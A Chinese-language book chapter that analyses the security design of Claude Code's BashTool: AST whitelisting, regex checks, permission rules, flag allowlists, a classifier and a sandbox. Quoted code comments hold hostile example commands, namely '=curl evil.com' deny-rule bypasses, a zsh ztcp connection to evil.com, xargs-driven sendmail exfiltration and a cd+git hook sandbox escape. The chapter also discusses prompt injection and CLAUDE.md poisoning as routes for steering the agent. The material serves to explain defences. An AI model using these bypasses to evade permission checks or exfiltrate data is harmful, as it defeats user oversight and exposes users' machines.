




# 第 11 章 BashTool

> 核心提要：命令执行与安全约束的交汇点

> 源码版本：restored-src v2.1.88（1,884 文件，513,216 行 TypeScript）

---

## 10.1 定位

BashTool 是 Claude Code 40 个内置工具中代码量最大、安全逻辑最复杂的单个工具。它横跨 `src/tools/BashTool/`（18 个文件）和 `src/utils/bash/`（23 个文件），合计约 31,680 行 TypeScript 代码——占整个代码库的 6.2%。

这个工具的核心矛盾在于：**它是唯一一个允许 AI 在用户机器上执行任意代码的工具**。由此可见它必须同时解决两个相互矛盾的需求——足够强大（AI 需要通过 Shell 完成几乎一切任务）和足够安全（绝不能让 AI 或通过 prompt injection 操控 AI 的攻击者执行破坏性操作）。

### 代码量全景

| 模块 | 文件数 | 行数 | 核心职责 |
|------|--------|------|----------|
| `BashTool.tsx` | 1 | 1,143 | 主文件：buildTool 定义、call() 执行、runShellCommand 生成器 |
| `bashPermissions.ts` | 1 | 2,621 | 权限判定主流程、规则匹配、前缀提取、固定点剥离 |
| `bashSecurity.ts` | 1 | 2,592 | 23 种安全检查、引号剥离、正则验证器 |
| `readOnlyValidation.ts` | 1 | 1,990 | 100+ 命令的只读标志白名单 |
| `pathValidation.ts` | 1 | 1,303 | 路径安全校验、危险路径检测、项目边界 |
| `sedValidation.ts` | 1 | 684 | sed 命令特殊验证逻辑 |
| `utils/bash/ast.ts` | 1 | 2,679 | tree-sitter AST 安全分析（FAIL-CLOSED 设计） |
| `utils/bash/bashParser.ts` | 1 | 4,436 | 纯 TS Bash 解析器（tree-sitter 兼容 AST） |
| 其余 32 个文件 | 32 | ~14,232 | UI 渲染、命令语义、沙箱决策、shell 工具等 |
| **合计** | **41** | **~31,680** | — |

**在 Claude Code 整体架构中的定位**：BashTool 是 Agent 能力的"根工具"。其他工具（FileReadTool、GrepTool、GlobTool）是特化的便捷通道，但 BashTool 理论上可以完成它们所有的工作。正因如此，它的安全设计实质上决定了整个 Agent 系统的安全边界。

### 与传统方案的本质区别

传统终端工具（如 IDE 内置终端）的安全模型：**信任用户输入**，安全责任完全在用户。

BashTool 面对的根本不同：**命令由 LLM 生成，而 LLM 可以被诱导**。Prompt injection、CLAUDE.md 投毒、MCP 工具注入都可能让模型生成恶意命令。因此 BashTool 需要在"用户"（实际上是 LLM）和 Shell 之间插入一个完整的安全层——这是传统方案中完全不存在的需求。

```mermaid
%%{init: {'theme': 'neutral', 'themeVariables': {'background': '#ffffff', 'primaryColor': '#f5f5f5', 'primaryTextColor': '#000000', 'primaryBorderColor': '#333333', 'lineColor': '#444444', 'textColor': '#000000', 'mainBkg': '#f5f5f5', 'nodeBorder': '#333333', 'clusterBkg': '#fafafa', 'clusterBorder': '#888888', 'edgeLabelBackground': '#ffffff'}}}%%
graph TD
    subgraph traditional ["传统终端模型"]
        U1["用户输入"] --> SHELL1["Shell 执行"]
    end
    subgraph bashtool ["BashTool 模型"]
        LLM["LLM 生成命令"] --> AST["AST 解析"]
        AST --> SEC["23 种模式检测"]
        SEC --> PERM["权限规则引擎"]
        PERM --> CLASS["AI 分类器"]
        CLASS --> SANDBOX["沙箱隔离"]
        SANDBOX --> SHELL2["Shell 执行"]
    end
```

<div style="background: #ffffff; padding: 16px; border-radius: 8px; margin: 16px 0;">



</div>

---

## 10.2 架构

### 10.2.1 纵深防御（Defense in Depth）

BashTool 的安全架构不是依赖单一检查，而是在命令执行路径上设置多层防线。核心设计原则是**每一层都假设上一层可能被绕过**。

<div style="background: #ffffff; padding: 16px; border-radius: 8px; margin: 16px 0;">



</div>

### 10.2.2 核心架构事实：AST 解析是主入口

一个关键的架构事实是：**tree-sitter AST 解析是安全检查的主入口（Step 0），不是"额外的精确分析层"**。这一点在 `bashPermissions.ts` L1688-L1695 中明确体现：

```typescript
// bashPermissions.ts L1688-L1695
let astRoot = injectionCheckDisabled
  ? null
  : feature('TREE_SITTER_BASH_SHADOW') && !shadowEnabled
    ? null
    : await parseCommandRaw(input.command);
let astResult: ParseForSecurityResult = astRoot
  ? parseForSecurityFromAst(input.command, astRoot)
  : { kind: 'parse-unavailable' };
```

只有当 tree-sitter WASM 不可用或被 GrowthBook killswitch 关闭时，才回退到 `bashSecurity.ts` 的正则路径。这条回退路径（2,592 行）曾经是唯一的安全入口，现在作为 AST 路径的 fallback。

**shadow 模式的工程智慧**：当前版本（v2.1.88）中 tree-sitter 仍在 shadow 模式（L1707-L1739），即 tree-sitter 的结果仅用于 telemetry 对比，最终决策仍走 legacy 路径。由此可见 Anthropic 正在用生产流量验证 AST 路径的正确性，然后才正式切换——这是一个教科书级的灰度发布策略。

### 10.2.3 三态结果设计

`ast.ts` 的 `parseForSecurityFromAst()` 产出三种结果，这是安全架构的关键抽象：

```typescript
// utils/bash/ast.ts L42-L45
export type ParseForSecurityResult =
  | { kind: 'simple'; commands: SimpleCommand[] }
  | { kind: 'too-complex'; reason: string; nodeType?: string }
  | { kind: 'parse-unavailable' }
```

白名单方式是精髓：与其列举所有危险的 Shell 语法（永远列不完），不如只允许已知安全的语法结构通过。`ast.ts` 的文件头注释声明了设计原则：

```typescript
// utils/bash/ast.ts L1-L18
// The key design property is FAIL-CLOSED: we never interpret structure we
// don't understand. If tree-sitter produces a node we haven't explicitly
// allowlisted, we refuse to extract argv and the caller must ask the user.
//
// This is NOT a sandbox. It does not prevent dangerous commands from running.
// It answers exactly one question: "Can we produce a trustworthy argv[] for
// each simple command in this string?"
```

### 10.2.4 命令生命周期全景

<div style="background: #ffffff; padding: 16px; border-radius: 8px; margin: 16px 0;">



</div>

---

## 10.3 实现

### 10.3.1 AST 安全分析层（ast.ts — 2,679 行）

AST 分析层使用 tree-sitter 解析 Bash 命令，然后用**显式白名单**策略遍历 AST。

**结构类型白名单**（L54-L59）仅允许四种节点递归遍历：

```typescript
const STRUCTURAL_TYPES = new Set([
  'program', 'list', 'pipeline', 'redirected_statement',
])
```

**危险类型集合**（L186-L205）包含 18 种节点类型——任何一种出现即返回 too-complex：

```typescript
const DANGEROUS_TYPES = new Set([
  'command_substitution', 'process_substitution', 'expansion',
  'simple_expansion', 'brace_expression', 'subshell',
  'compound_statement', 'for_statement', 'while_statement',
  'until_statement', 'if_statement', 'case_statement',
  'function_definition', 'test_command', 'ansi_c_string',
  'translated_string', 'herestring_redirect', 'heredoc_redirect',
])
```

**tree-sitter/bash 解析差异预检查**是安全的关键。`parseForSecurityFromAst`（L400-L460）在 tree-sitter 解析之前运行 6 个预检查：

```typescript
// utils/bash/ast.ts L400-L457
export function parseForSecurityFromAst(cmd, root) {
  if (CONTROL_CHAR_RE.test(cmd))
    return { kind: 'too-complex', reason: 'Contains control characters' }
  if (UNICODE_WHITESPACE_RE.test(cmd))
    return { kind: 'too-complex', reason: 'Contains Unicode whitespace' }
  if (BACKSLASH_WHITESPACE_RE.test(cmd))
    return { kind: 'too-complex', reason: 'Contains backslash-escaped whitespace' }
  if (ZSH_TILDE_BRACKET_RE.test(cmd))
    return { kind: 'too-complex', reason: 'Contains zsh ~[ dynamic directory syntax' }
  if (ZSH_EQUALS_EXPANSION_RE.test(cmd))
    return { kind: 'too-complex', reason: 'Contains zsh =cmd equals expansion' }
  if (BRACE_WITH_QUOTE_RE.test(maskBracesInQuotedContexts(cmd)))
    return { kind: 'too-complex', reason: 'Contains brace with quote character' }
  // ...
  if (root === PARSE_ABORTED)
    return { kind: 'too-complex', reason: 'Parser aborted', nodeType: 'PARSE_ABORT' }
  return walkProgram(root)
}
```

这些预检查捕获的是 tree-sitter 与 bash 之间的**语义差异**——tree-sitter 的词法分析和实际 Shell 的执行可能对同一字符序列产生不同的理解。例如：
- **控制字符**（L254）：bash 静默丢弃但 tree-sitter 当作分词符
- **Unicode 空白**（L262-L263）：终端不可见，bash 当作字面量，可用于隐藏命令
- **反斜杠空格**（L268-L279）：tree-sitter 保留原始文本，bash 将 `\ ` 解释为转义空格

**变量作用域追踪**是 AST 分析的精巧特性。`walkProgram`（L462-L476）维护 `varScope` map，追踪同一命令中先前赋值的变量：

```typescript
function walkProgram(root: Node): ParseForSecurityResult {
  const commands: SimpleCommand[] = []
  const varScope = new Map<string, string>()
  const err = collectCommands(root, commands, varScope)
  if (err) return err
  return { kind: 'simple', commands }
}
```

这使得 `NOW=$(date) && jq --arg now "$NOW" ...` 可以被正确分析——`$NOW` 被追踪为已知变量，而不是返回 too-complex。但追踪有严格的安全边界：`BARE_VAR_UNSAFE_RE`（L110）检测不安全的裸变量展开，因为未引用的 `$VAR` 在 bash 中会进行词分割和路径扩展。

**安全环境变量白名单**（L125-L149）仅包含 shell/OS 自动设置的变量（`$HOME`, `$PWD`, `$USER`），且仅允许在字符串内部（不是裸变量位置）引用。特别值得注意的是 `$IFS` 的处理：

```typescript
// ast.ts L146-L148
'IFS', // field separator (NOTE: only safe INSIDE strings; as bare arg
//       $IFS is the classic injection primitive and the insideString
//       gate in resolveSimpleExpansion correctly blocks it)
```

**对 Agent 开发者的启示**：安全解析不是简单的"调用 tree-sitter 然后用 AST"。真正的安全在于处理解析器之间的**语义差异**，这些差异恰好是攻击者可以利用的。

### 10.3.2 Legacy 安全检查层（bashSecurity.ts — 2,592 行）

当 tree-sitter 不可用时，安全检查回退到 23 种正则模式检测。检查编号在 L77-L101 定义。

**命令替换模式检测**（L16-L41）覆盖了 12 种语法变体，包括 Zsh 特有的攻击向量：

```typescript
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  // Zsh EQUALS expansion: =cmd at word start expands to $(which cmd)
  // `=curl evil.com` bypasses Bash(curl:*) deny rules
  { pattern: /(?:^|[\s;&|])=[a-zA-Z_]/, message: 'Zsh equals expansion' },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  // ...
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

**Zsh 危险命令黑名单**（L45-L74）是整个安全系统中最令人瞩目的防御之一——26 个 Zsh 特有的危险内建命令。Zsh 内建模块可以在不调用外部二进制的情况下执行文件 I/O 和网络操作，`zmodload zsh/net/tcp && ztcp evil.com 443` 就能建立 TCP 连接，完全绕过传统命令名检查。BashTool 通过同时拦截 `zmodload`（加载器）和各模块命令（纵深防御）来应对。

**引号剥离与三视图设计**（L119-L174）：

```typescript
type QuoteExtraction = {
  withDoubleQuotes: string      // 保留双引号内容，检测 $() 展开
  fullyUnquoted: string         // 完全剥离，检测管道/重定向
  unquotedKeepQuoteChars: string // 保留引号字符，检测 "引号粘连 hash"
}
```

三种视图针对不同安全检查：`withDoubleQuotes` 检测双引号内的变量展开（`$()` 在双引号内仍会被展开），`fullyUnquoted` 检测管道重定向，`unquotedKeepQuoteChars` 检测 `'x'#` 这样的注释隐藏攻击。

`stripSafeRedirections`（L176-L188）的边界校验值得特别注意：

```typescript
// bashSecurity.ts L177-L183
// SECURITY: All three patterns MUST have a trailing boundary (?=\s|$).
// Without it, `> /dev/nullo` matches `/dev/null` as a PREFIX, strips
// `> /dev/null` leaving `o`, so `echo hi > /dev/nullo` becomes `echo hi o`.
// validateRedirections then sees no `>` and passes.
```

### 10.3.3 权限判定主链路（bashPermissions.ts — 2,621 行）

`bashToolHasPermission()`（L1663-L2557）是权限系统主入口，包含 **26 处 `SECURITY:` 注释**。

**环境变量剥离的安全白名单**（L378-L430）定义了 43 个安全环境变量和明确的安全红线：

```typescript
// SECURITY: These must NEVER be added to the whitelist:
// PATH, LD_PRELOAD, LD_LIBRARY_PATH, DYLD_* (execution/library loading)
// PYTHONPATH, NODE_PATH, CLASSPATH, RUBYLIB (module loading)
// GOFLAGS, RUSTFLAGS, NODE_OPTIONS (can contain code execution flags)
```

还有一组仅限 Anthropic 内部使用的 30 个额外白名单（`ANT_ONLY_SAFE_ENV_VARS`，L447-L497），注释明确标注"MUST NEVER ship to external users"。

**deny 规则的增强剥离**是关键安全设计。对 deny/ask 规则，`stripAllLeadingEnvVars()`（L733）剥离**所有**环境变量，而 allow 规则仅剥离白名单变量。这种不对称确保了"deny 规则更难被绕过"：

```typescript
// bashPermissions.ts L711-L721
// Used for deny/ask rule matching: when a user denies `rm`, the command
// should stay blocked even if prefixed with `FOO=bar rm`. The safe-list
// restriction in stripSafeWrappers is correct for allow rules, but deny
// rules must be harder to circumvent.
```

**固定点迭代算法**（L826-L853）处理交错的环境变量和包装器，例如 `nohup FOO=bar timeout 5 claude`：

1. `stripSafeWrappers` 剥离 `nohup` -> `FOO=bar timeout 5 claude`
2. `stripAllLeadingEnvVars` 剥离 `FOO=bar` -> `timeout 5 claude`
3. `stripSafeWrappers` 剥离 `timeout 5` -> `claude`（deny match）

**每子命令 8 步权限判定**（`bashToolCheckPermission`，L1050-L1178）：

<div style="background: #ffffff; padding: 16px; border-radius: 8px; margin: 16px 0;">



</div>

### 10.3.4 只读验证层（readOnlyValidation.ts — 1,990 行）

只读验证在每子命令的第 8 步被调用。`checkReadOnlyConstraints()`（L1876-L1990）有 7 个安全前置条件，任何一项不满足则不做只读放行：

```typescript
// readOnlyValidation.ts L1914-L1923
// SECURITY: Block compound commands that have both cd AND git
// This prevents sandbox escape via: cd /malicious/dir && git status
// where the malicious directory contains fake git hooks
if (compoundCommandHasCd && hasGitCommand) {
  return { behavior: 'passthrough', message: '...' }
}
```

标志白名单为 100+ 命令定义了安全配置。以 `fd` 为例（L55-L123），注释中的安全考量令人印象深刻：

```typescript
// SECURITY: -x/--exec and -X/--exec-batch are deliberately excluded —
// they execute arbitrary commands for each search result.
// SECURITY: -l/--list-details EXCLUDED — internally executes `ls` as subprocess.
// PATH hijacking risk if malicious `ls` is on PATH.
```

`xargs` 的标志验证（L129-L161）揭示了更深层的安全问题——GNU getopt 可选参数的语义差异：

```typescript
// SECURITY: `-i` and `-e` (lowercase) REMOVED — both use GNU getopt
// optional-attached-arg semantics (`i::`, `e::`).
// `-i` (`i::` - optional replace-str):
//   echo /usr/sbin/sendm | xargs -it tail a@evil.com
//   validator: -it bundle OK, tail in SAFE_TARGET -> break
//   GNU: -i replace-str=t, tail -> /usr/sbin/sendmail -> NETWORK EXFIL
```

### 10.3.5 命令语义分类

BashTool 不把所有命令一视同仁，在多个维度上进行语义分类。

**搜索/读取/列表分类**（BashTool.tsx L59-L78）：`isSearchOrReadBashCommand()` 分析整个管道，只有当所有非中性子命令都属于搜索/读取/列表类别时，整个命令才被标记为可折叠。

**退出码语义解释**（commandSemantics.ts L31-L89）让 AI 准确理解命令结果：

```typescript
const COMMAND_SEMANTICS = new Map([
  ['grep', (exitCode) => ({ isError: exitCode >= 2,
    message: exitCode === 1 ? 'No matches found' : undefined })],
  ['diff', (exitCode) => ({ isError: exitCode >= 2,
    message: exitCode === 1 ? 'Files differ' : undefined })],
])
```

没有这个系统，`grep` 返回 1 时 AI 会以为命令出错，尝试修复不存在的问题。

**静默命令分类**（BashTool.tsx L81）：`BASH_SILENT_COMMANDS`（mv, cp, rm, mkdir 等）成功时通常不产生 stdout，BashTool 显示 "Done" 而非 "(No output)"。

### 10.3.6 沙箱执行与输出处理

**沙箱决策**（shouldUseSandbox.ts L130-L153）的关键注释：

```typescript
// NOTE: excludedCommands is a user-facing convenience feature, not a security boundary.
// It is not a security bug to be able to bypass excludedCommands
```

**AsyncGenerator 驱动的执行**（BashTool.tsx L624-L682）通过 `yield` 产出进度更新，2 秒进度阈值（L55）避免快速命令的 UI 闪烁。

**Assistant 模式自动后台化**（L57）：`ASSISTANT_BLOCKING_BUDGET_MS = 15_000`——主 agent 超过 15 秒的阻塞命令自动后台化。

---

## 10.4 细节

### 10.4.1 HackerOne 审计痕迹

源码中有 3 处显式引用 HackerOne 安全报告：

1. **HackerOne #3543050**（bashPermissions.ts L603）：包装命令后的环境变量不能作为 shell 赋值来剥离。`nohup FOO=bar cmd` 中 `FOO=bar` 是参数而非赋值，两阶段剥离（Phase 1 剥离环境变量，Phase 2 剥离包装器，两阶段不交叉）就是这个修复的产物。

2. **HackerOne report**（bashPermissions.ts L1074）：deny/ask 规则必须在 path 约束之前检查，防止绝对路径绕过 deny 规则。

3. **HackerOne review**（bashSecurity.ts L1074）：eval bypass。

### 10.4.2 CC-643 性能事件

`bashPermissions.ts` L95-L103 记录了一个真实的生产事件：

```typescript
// CC-643: On complex compound commands, splitCommand_DEPRECATED can produce a
// very large subcommands array (possible exponential growth). Each subcommand
// then runs tree-sitter parse + ~20 validators + logEvent, and with memoized
// metadata the resulting microtask chain starves the event loop — REPL freeze
// at 100% CPU, strace showed /proc/self/stat reads at ~127Hz with no epoll_wait.
export const MAX_SUBCOMMANDS_FOR_SECURITY_CHECK = 50
```

修复包括子命令数量上限和 telemetry 聚合优化（L2348-L2366）。

### 10.4.3 Bun DCE 复杂度预算

`bashPermissions.ts` L81-L87 记录了一个极其独特的工程约束：

```typescript
// DCE cliff: Bun's feature() evaluator has a per-function complexity budget.
// bashToolHasPermission is right at the limit. `import { X as Y }` aliases
// count toward this budget; when they push it over the threshold Bun can no
// longer prove feature('BASH_CLASSIFIER') is a constant and silently
// evaluates the ternaries to `false`, dropping every pendingClassifierCheck.
```

多个辅助函数（`checkEarlyExitDeny`、`checkSemanticsDeny`、`filterCdCwdSubcommands`、`skipTimeoutFlags`）被提取出来，不是为了代码组织，而是为了让 Bun 能正确分析 feature flags。这是真实生产系统中"编译器约束驱动代码结构"的罕见案例。

### 10.4.4 stripSafeWrappers 的安全红线

`stripSafeWrappers`（L524-L615）的注释密度极高：

```typescript
// SECURITY: Use [ \t]+ not \s+ — \s matches \n/\r which are command
// separators in bash. Matching across a newline would strip the wrapper
// from one line and leave a different command on the next line.
```

```typescript
// SECURITY: flag VALUES use allowlist [A-Za-z0-9_.+-]. Previously [^ \t]+
// matched $ ( ) ` | ; & — `timeout -k$(id) 10 ls` stripped to `ls`,
// matched Bash(ls:*), while bash expanded $(id) during word splitting.
```

### 10.4.5 复合命令与 cd+git 安全

`bashPermissions.ts` L2202-L2225 包含一个关键的安全检查——阻止 `cd + git` 复合命令：

```typescript
// SECURITY: Block compound commands that have both cd AND git
// This prevents sandbox escape via: cd /malicious/dir && git status
// where the malicious directory contains a bare git repo with core.fsmonitor.
if (compoundCommandHasCd) {
  const hasGitCommand = subcommands.some(cmd => isNormalizedGitCommand(cmd.trim()));
  if (hasGitCommand) {
    return { behavior: 'ask', ... }
  }
}
```

`isNormalizedGitCommand`（L2567-L2588）和 `isNormalizedCdCommand`（L2603-L2611）对命令进行规范化检测，防止通过环境变量前缀或引号隐藏命令名。

<div style="background: #ffffff; padding: 16px; border-radius: 8px; margin: 16px 0;">



</div>

---

## 10.5 比较

### 10.5.1 安全架构对比

| 维度 | Claude Code | Cursor | Aider | Codex CLI | OpenHands |
|------|-------------|--------|-------|-----------|-----------|
| Bash 安全代码量 | ~31,680 行 | 未公开 | 极少 | 未公开 | 极少 |
| AST 解析 | tree-sitter + 自研 bashParser | 无 | 无 | 未公开 | 无 |
| 安全检查种类 | 23 种 | 未公开 | 基本确认 | 未公开 | Docker 隔离 |
| 标志白名单 | 100+ 命令 | 无 | 无 | 无 | 无 |
| Zsh 威胁模型 | 26 命令黑名单 | 无 | 无 | 无 | 无 |
| 沙箱 | macOS Seatbelt + Linux bubblewrap | 无 | 无 | Rust 沙箱 | Docker |
| AI 分类器 | YOLO Classifier 两阶段 | 未公开 | 无 | 未公开 | 无 |

### 10.5.2 Claude Code 的优势

1. **安全深度无可匹敌**：23 种检查 + AST 分析 + 标志白名单 + AI 分类器，形成了 AI Agent 领域最深度的命令安全系统。没有任何已知竞品达到类似的安全粒度——例如 `xargs -i` 与 `xargs -I {}` 的 GNU getopt 语义差异分析。

2. **Zsh 专有威胁模型**：Claude Code 是唯一一个针对 Zsh 内建模块（zsh/system、zsh/net/tcp、zsh/files）有专门安全检查的 Agent 工具。

3. **FAIL-CLOSED 设计原则**：在不确定时默认询问用户，而不是默认放行。这是安全工程的金标准，但很少在 AI Agent 中看到如此彻底的实现。

### 10.5.3 局限性

1. **Shadow 模式未完全启用**：v2.1.88 中 tree-sitter AST 路径仍在 shadow 模式，实际决策走 legacy 正则路径。由此可见 AST 路径的全部安全收益尚未生效。

2. **性能开销**：每条命令需要经过 AST 解析 + 多轮安全检查 + 权限规则匹配，相比 Cursor/Aider 的简单确认有额外延迟。CC-643 性能事件证明这不是理论风险。

3. **bashClassifier.ts 是外部构建的桩**：在 restored-src 中，`bashClassifier.ts`（61 行）是一个全功能被禁用的桩——所有函数返回空/false。由此可见 AI 分类器（根据自然语言描述分类命令的能力）在外部构建中不可用。

---

## 10.6 辨误

### 10.6.1 争议：安全设计是否足够？

**社区分歧的本质**：乐观派（知乎、掘金多篇）认为四层纵深防御设计完整；批判派（The Register、Straiker）指出 CLAUDE.md 投毒、MCP 攻击面、grep 密钥检测盲区。

**源码实证裁决**：两方都有道理，分歧源于对安全设计目标的不同期望。Claude Code 的安全设计是**经济博弈**而非**绝对防御**。26 处 `SECURITY:` 注释 + 3 处 HackerOne 引用证明了持续的安全投入，但源码中也有明确的设计边界——例如 `shouldUseSandbox.ts` 中"excludedCommands is not a security boundary"的注释。

安全的目标是让攻击成本高到不划算。每一层都在提高成本：
- AST 分析让结构性攻击需要绕过白名单（任何未知结构被拒绝）
- 23 种模式检测让已知攻击模式需要新变体
- 权限规则让社会工程攻击需要获取用户确认
- 沙箱让成功绕过后的影响范围受限

### 10.6.2 争议：grep 密钥检测的盲区

**问题本质**：BashTool 的只读验证使用 `bashCommandIsSafe_DEPRECATED()`（正则模式匹配）来检测危险命令，包括检测密钥文件的访问。但正则无法覆盖所有编码变体和间接访问方式。

**源码实证**：`readOnlyValidation.ts` 中的安全前置条件确实以正则为基础，但安全设计不仅依赖正则——路径约束检查（`checkPathConstraints`）、危险路径黑名单（`pathValidation.ts` L70-L100 的 `isDangerousRemovalPath`）和沙箱文件系统限制提供了多层补充。正则检测是**第一道防线**，不是唯一防线。

### 10.6.3 误解纠正：安全系统是完全防御

**更准确地说**：源码中的设计明确表明这是一个**成本经济学**模型。`shouldUseSandbox.ts` L18 的注释一锤定音："not a security boundary"。`ast.ts` L15-L16 也明确声明："This is NOT a sandbox. It does not prevent dangerous commands from running."

安全系统的每一层都在做同一件事——提高攻击者的成本。AST 白名单让攻击者不能用任意 Shell 语法；23 种模式检测让已知攻击需要新变体；权限系统让攻击需要用户确认；沙箱让成功攻击的影响受限。这是**纵深防御 + 经济威慑**的组合，不是"完全防御"。

社区将其误解为"完全防御"然后指出"可以绕过"，是对安全工程目标的误读。正确的评价标准是：在给定的 UX 摩擦预算下（不能每条命令都弹窗），安全层是否将攻击成本提高到了合理水平？从源码证据看，答案是肯定的。

---

## 10.7 展望

### 10.7.1 已知缺陷

1. **Shadow 模式尚未切换**：tree-sitter AST 路径的全部安全收益尚未在生产中生效。`bashPermissions.ts` L1707-L1739 的 shadow 逻辑最终会被移除，但当前版本仍在收集对比数据。

2. **bashParser.ts 的维护负担**：4,436 行纯 TypeScript Bash 解析器是一个巨大的维护负担。`ast.ts` L1 的注释说它"replaces the shell-quote + hand-rolled char-walker approach"，但在 shadow 模式下两条路径都需要维护。

3. **splitCommand_DEPRECATED 仍在使用**：尽管名字中带有 `_DEPRECATED`，这个函数在 `bashPermissions.ts`、`readOnlyValidation.ts`、`shouldUseSandbox.ts` 等多处仍被调用。这是技术债务的明确标志。

4. **bashClassifier.ts 的外部构建限制**：AI 分类器在外部构建中是桩实现，意味着 `prompt:` 规则（基于自然语言描述的权限）在社区版本中不可用。

### 10.7.2 如果设计下一版

1. **AST 路径全面启用**：消除 shadow 模式，让 tree-sitter AST 成为唯一的安全入口。legacy 路径可以保留为紧急回退（killswitch），但不应是默认路径。

2. **统一解析器**：将 `bashParser.ts`（4,436 行）和 `shellQuote.ts` 统一为 tree-sitter，消除"两个解析器 + 差异处理"的维护负担。

